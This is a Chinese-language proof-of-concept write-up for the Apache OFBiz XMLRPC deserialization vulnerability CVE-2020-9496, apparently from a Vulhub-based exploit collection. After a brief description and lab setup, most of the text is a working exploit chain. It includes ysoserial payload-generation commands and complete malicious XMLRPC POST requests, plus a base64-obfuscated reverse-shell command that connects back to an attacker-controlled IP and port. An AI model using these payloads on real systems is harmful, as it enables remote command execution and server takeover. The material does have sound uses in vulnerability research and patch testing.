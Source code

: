 # Apache OfBiz 反序列化命令执行漏洞CVE-2020-9496

## 漏洞描述

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

其17.12.04版本之前的XMLRPC接口存在一处反序列化漏洞，攻击者利用这个漏洞可以在目标服务器上执行任意命令。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
- https://github.com/dwisiswant0/CVE-2020-9496
- https://www.cnblogs.com/ph4nt0mer/p/13576739.html

## 环境搭建

Vulhub执行如下命令启动一个Apache OfBiz 17.12.01版本：

```
docker-compose up -d
```

在等待数分钟后，访问`https://your-ip:8443/myportal/control/main`查看到登录页面，说明环境已启动成功。

![image-20220228132653236](./images/202202281326342.png)

## 漏洞复现

由于默认情况下没有报错信息，所以使用[参考链接2](https://github.com/dwisiswant0/CVE-2020-9496)中给出的方法无法正确判断漏洞是否存在，还是需要通过执行反序列化来复现漏洞。

使用[ysoserial](https://github.com/frohoff/ysoserial)的CommonsBeanutils1来生成Payload：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "touch /tmp/awesome_poc" | base64 | tr -d "\n"
```

![image-20220228134051709](./images/202202281340980.png)

将base64后的payload替换并发送如下数据包：

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![image-20220228134410175](./images/202202281344325.png)

进入容器中，可见`touch /tmp/awesome_poc`已成功执行：

![image-20220228134307506](./images/202202281343563.png)

### 反弹shell

要进行两遍base64编码：

```
java -jar ysoserial.jar CommonsBeanutils1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMS4xMzIvMjI1OSAwPiYx}|{base64,-d}|{bash,-i}" | base64 | tr -d "\n"
```

发送数据包，在VPS上监听反弹shell：

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: 172.16.10.22:8443
Cookie: OFBiz.Visitor=10103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 2401

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[Base64 Payload Here]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```


